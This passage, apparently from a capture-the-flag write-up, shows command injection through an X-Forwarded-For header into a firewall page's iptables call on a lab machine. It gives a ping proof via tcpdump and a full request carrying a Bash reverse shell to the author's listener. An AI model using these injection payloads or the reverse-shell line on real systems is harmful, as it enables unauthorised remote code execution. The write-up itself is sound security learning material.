 

    GET /firewall.php HTTP/1.1
    Host: 10.10.11.128
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.11.128/challenge.php
    Connection: close
    Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
    Upgrade-Insecure-Requests: 1
    X-FORWARDED-FOR: 1.1.1.1; ping -c 1 10.10.14.6;



With `tcpdump` listening, I'll send the request. I get a ping:



    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    16:28:32.771157 IP 10.10.11.128 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 64
    16:28:32.771182 IP 10.10.14.6 > 10.10.11.128: ICMP echo reply, id 1, seq 1, length 64



It's important to have the trailing `;` after my command. Otherwise, it
makes:



    sudo /usr/sbin/iptables -A INPUT -s 1.1.1.1; ping -c 1 10.10.14.6 -j ACCEPT



This command will result in an error saying that `ping` has no option
`-j`.

#### Reverse Shell

It's possible that special characters will mess things up, but the first
I tried was to just drop a Bash reverse shell into the header:



    GET /firewall.php HTTP/1.1
    Host: 10.10.11.128
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.11.128/challenge.php
    Connection: close
    Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
    Upgrade-Insecure-Requests: 1
    X-FORWARDED-FOR: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1";



On sending (with `nc` listening), it worked:
